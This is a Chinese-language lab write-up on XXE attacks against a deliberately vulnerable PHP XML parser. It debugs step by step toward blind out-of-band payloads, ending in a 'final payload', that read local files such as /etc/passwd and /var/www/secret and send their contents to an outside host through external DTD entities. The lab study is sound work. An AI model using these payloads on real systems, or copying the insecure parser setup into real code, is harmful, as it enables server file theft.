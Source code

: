 ## 0x01 XXE 攻击
已发博客： http://localhost:4000/2019/01/20/xxe%E5%AE%9E%E9%AA%8C%E8%B8%A9%E5%9D%91%E8%AE%B0%E5%BD%95/
文章阅读： https://xz.aliyun.com/t/2249  

苦行僧一般的修炼...  

#### 实验

服务器ubuntu xml.php:
```php
libxml_disable_entity_loader (false);
$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
$creds = simplexml_import_dom($dom);
```
其中：  
LIBXML_NOENT: 将 XML 中的实体引用 替换 成对应的值
LIBXML_DTDLOAD: 加载 DOCTYPE 中的 DTD 文件


坑... 踩了一个又一个233333...  
**我之前的某个疑惑 ：**    
思考：为什么非要从服务器读取evil.dtd呢？直接在下面调用不可以吗？  

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA">
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % end "]]>">
<!ENTITY all "%start;%file;%end;">
]> 

<roottag>&all;</roottag>
```
报错：PEReferences(Parameter-entity) forbidden in internal subset in Entity  
原因：In the internal subset of DTD, references to parameter entities are not allowed within markup declarations. You have to use an external DTD[规则](https://www.w3.org/TR/xml/#wfc-PEinInternalSubset) 也就是说在DTD内部子集中，参数实体的引用不允许在标记声明里。在外部DTD中，是可以的    


**又...某个神奇的报错：**   
```xml
evil.dtd:
<!ENTITY % file SYSTEM "file:///var/www/test.txt">
<!ENTITY % int "<!ENTITY % send SYSTEM 'http://123.207.153.65?p=%file;'>">
```
DOMDocument::loadXML(): Entity Value: '%' forbidden except for entities 
原因：报错已经说的很清楚了，%不允许出现在Entity的value中. 所以需要将%进行Unicode编码为`&#37;`（在xml中Unicode编码与字符本身是一样的），

**继续思考...继续踩...**   
思考：为什么不可以直接定义呢？ 
``` 
evil.dtd:
<!ENTITY % send SYSTEM 'http://123.207.153.65?p=%file;'>
```
报错：发现直接声明参数实体send然后引用%send; , 结果就是%file;没有被解析  
原因：所以需要在外面包一个参数实体int的声明，`%int;`引用的时候%file;会被成功解析，然后在%send;就可以成功的将解析`%file;`的内容传出。所以`%int`只是辅助的作用，用于辅助解释send实体内容。

**continue**
经过大概一天的时间，终于知道问题所在，感谢🙏师父，不然我真是要睡的不明不白了23333...  
下面的payload  
```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [ 
<!ENTITY % dtd SYSTEM "http://45.76.x.x/evil.txt"> 
%dtd;%int;%send; 
]> 

evil.txt
<!ENTITY % file SYSTEM "file://etc/var/secret">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM "http://45.76.x.x/:9999?p=%file;">">
```
为什么会出现`loadXML(): Invalid URI: http://x.x.x.x:9999/?p=iitestjfkljal in Entity,`这种报错呢？  
诚如报错信息本身，是无效的URL，我也考虑再三，可是怎么看都没有问题，没有：也没有加xml中的特殊字符，但是关于字符，有可见字符，也有不可见字符，所以这种情况，需要十六进制（xxd或者hexdump -C）显示一下是否有系统自己添加的特殊字符，就像`echo "m3lon" > secret`echo命令本身就是回车显示，所以看似没有问题的URL，其实有一个小小的回车(0a)存在。
```
ubuntu@VM-12-40-ubuntu:~$ hexdump -C /var/www/secret
00000000  6d 33 6c 6f 6e 0a        |m3lon.|
00000006
```
所以最优的方法就是改为下面利用php://filter流  
```
evil.txt
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file://etc/var/secret">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM "http://45.76.x.x/:9999?p=%file;">">
```

ps：网络上的payload稂莠不齐，经过我这番踩坑，对于以后的各种报错，大致知道是什么问题了  

终极payload奉上：
```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [ 
<!ENTITY % dtd SYSTEM "http://x.x.x.x/evil.txt"> 
%dtd;%int;%send; ]> 

evil.txt
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///var/www/secret">
<!ENTITY % int "<!ENTITY &#x25; send SYSTEM 'http://x.x.x.x:9999/?p=%file;'>">
```